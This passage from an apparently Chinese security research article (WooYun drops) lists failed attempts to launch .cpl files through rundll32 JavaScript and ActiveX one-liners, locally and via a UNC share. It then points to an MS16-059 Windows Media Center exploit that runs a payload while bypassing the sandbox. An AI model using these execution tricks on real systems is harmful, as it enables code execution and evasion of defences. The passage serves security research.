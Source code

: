 **遗留问题：**

**1、无法调用Shell.Application直接执行cpl文件：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new20%ActiveXObject("Shell.Application").ControlPanelItem("c:\\test\\cpl.cpl")

```

**2、无法远程调用cpl文件**

无法识别文件后缀：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("\\\\127.0.0.1\\c$\\test\\cpl.cpl")

```

弹框拦截远程文件：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("cmd /c \\\\127.0.0.1\\c$\\test\\cpl.cpl")

```

and

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("cmd /c \\\\127.0.0.1\\c$\\test\\cpl.cpl",0,true)

```

如果你有解决办法或是更好的思路，希望能够分享，不胜感激。

0x07 Microsoft Windows Media Center - .MCL File Processing Remote Code Execution (MS16-059)
===========================================================================================

* * *

下载链接：[https://www.exploit-db.com/exploits/39805/](https://www.exploit-db.com/exploits/39805/)

将定制的快捷方式放于任意路径，本地或是远程，当用户访问此目录的时候，就会执行payload  
演示的远程路径为：`\\127.0.0.1\c$\test\poc`（正常情况下访问此目录也会当作远程目录被沙盒拦截）

poc演示如图，访问远程目录`\\127.0.0.1\c$\test\poc`并绕过沙盒拦截，成功执行payload

![Alt text](http://drops.javaweb.org/uploads/images/728a300b82096ccbc11bebf292a7116c56bbfb77.jpg)

©乌云知识库版权所有 未经许可 禁止转载